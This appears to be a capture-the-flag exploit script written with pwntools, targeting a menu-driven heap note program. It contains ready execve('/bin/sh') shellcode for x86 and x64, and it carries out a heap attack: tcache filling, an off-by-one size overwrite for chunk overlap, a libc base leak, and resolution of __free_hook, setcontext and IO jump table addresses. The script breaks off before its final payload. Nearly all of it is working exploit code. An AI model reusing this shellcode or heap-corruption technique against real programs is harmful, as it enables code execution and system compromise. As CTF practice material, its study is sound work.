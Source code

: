 ```python
ru      = lambda text               :p.recvuntil(text)
uu32    = lambda                    :u32(p.recvuntil("\xf7")[-4:].ljust(4,"\x00"))
uu64    = lambda                    :u64(p.recvuntil("\x7f")[-6:].ljust(8,"\x00"))
lg      = lambda s                  :p.success('%s -> 0x%x' % (s, eval(s)))

sh_x86_18="\x6a\x0b\x58\x53\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\xcd\x80"
sh_x86_20="\x31\xc9\x6a\x0b\x58\x51\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\xcd\x80"
sh_x64_21="\xf7\xe6\x50\x48\xbf\x2f\x62\x69\x6e\x2f\x2f\x73\x68\x57\x48\x89\xe7\xb0\x3b\x0f\x05"
#https://www.exploit-db.com/shellcodes
#-----------------------------------------------------------------------------------------

def add(size,idx,con='a'):
    sla('>> ',1)
    sla("How much do you want?",size)
    sla("Which one do you want to put?",idx)
    p.sendafter('Tell me your idea:',con)

def dele(idx):
    sla('>> ',2)
    sla("Which one do you want to remove?",idx)

def edit(idx,con):
    sla('>> ',4)
    sla("Which one do you want to change?",idx)
    p.sendlineafter("Change your idea:",con)

def show(idx):
    sla('>> ',3)
    sla("Which one do you want to look?",idx)


note = 0x40C0
libc_base = 0x4110
sla("Before the game starts, please give me your name:","e4l4")


for i in range(7):
    add(0xe8,i)
for i in range(7):
    dele(i)


add(0x48,0)
add(0x78,1)
add(0x38,2)
add(0x28,3)

add(0x78,4)


dele(3)
edit(0,'a'*0x48+'\xf1')
dele(1)


add(0x78,5)
show(2)
libc_base = uu64()-0x1ebbe0
lg('libc_base')
free_hook = libc_base+libc.sym['__free_hook']
setcontext = libc_base+libc.sym['setcontext'] + 61
IO_helper_jumps = libc_base + 0x1ec8a0
IO_file_jumps = 0x1ed4a0+libc_base
```